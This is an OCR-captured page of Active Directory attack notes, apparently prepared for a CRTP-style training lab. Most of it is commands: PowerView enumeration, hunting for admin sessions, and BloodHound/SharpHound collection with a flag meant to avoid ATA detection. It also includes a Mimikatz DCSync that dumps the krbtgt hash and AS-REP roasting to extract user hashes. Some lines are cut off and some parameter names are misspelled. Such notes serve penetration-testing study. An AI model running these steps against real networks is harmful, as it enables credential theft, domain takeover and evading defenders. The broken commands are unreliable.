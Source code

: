 ```powershell
Get-NetForestDomain -Forest <forestname>
# AD Module
(Get-ADForest).Domain
Domain Enum User Hunting
# Find all machine on the current domain where the current user has local admin access
Find-LocalAdminAccess -Verbose
# Find computers where a domain admin ( or specified user/group) has session:
Invoke-UserHunter
Invoke-UserHunter -GroupNmae "RDPUsers"
# confirm admin access
Invoke-UserHunter -CheckAccess
Domain Enumeration - BloodHound
https://ernw.de/download/ERNW_DogWhisperer3.pdf
How to install and run Bloodhound:
# Install Bloodhound from the apt repository with:
sudo apt update && sudo apt install -y bloodhound
# After installation completes, start neo4j with the following command:
sudo neo4j console
# Now we need to change the default credentials for neo4j. Navigate to localhost:7474 and login with the default credentials
username: neo4j
password: neo4j
# After logging in, you will be asked to change the default password with a new one. You need this password to later login in the B
# Now that the password has been successfully modified you can finally launch Bloodhound with the new credentials.
# Run the SharpHound script in the foothold computer
https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1
# Use the below command:
Invoke-BloodHound -CollectionMethod All
# BloodHound from windows attacker mechine:
# Load SharpHound.ps1
. .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -Verbose
# To avoid detection like ATA
Invoke-BloodHound -CollectionMethod All -ExludeDC
# Now install and start ne04j server
# from administrative CMD :
CRTP 12
cd C:\neo4j\neo4j-community-3.5\bin
neo4j.bat install-service
neo4j.bat start
# Open BloodHound application and use the creds: username=neo4j password=neo4j
# Open the browser and navigate to http://localhost:7474 to change the defaults creds
# Go back to BloodHound application and Login with the new creds
# Go to upload data , and upload the zip file from the Sharphound results script.
# If the sessions are missings return to the powershell window and run the command:
Invoke-BloodHound -CollectionMethod LoggedOn -Verbose
# Now upload this one result as well to the bloodhoun application.
Enumerate for DCsync Attack
# powerview
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -
# Exploit Locally
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
Enumeration of account with kerberos preauth disable
# Using Powerview(dev):
Get-DomainUser -PreauthNotRequired -Verbose
# Using ActiveDirectory module
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
# Usingthe script to extract user hash
https://raw.githubusercontent.com/HarmJ0y/ASREPRoast/master/ASREPRoast.ps1
Get-ASREPHash -UserName lydia.karylin -Verbose
```
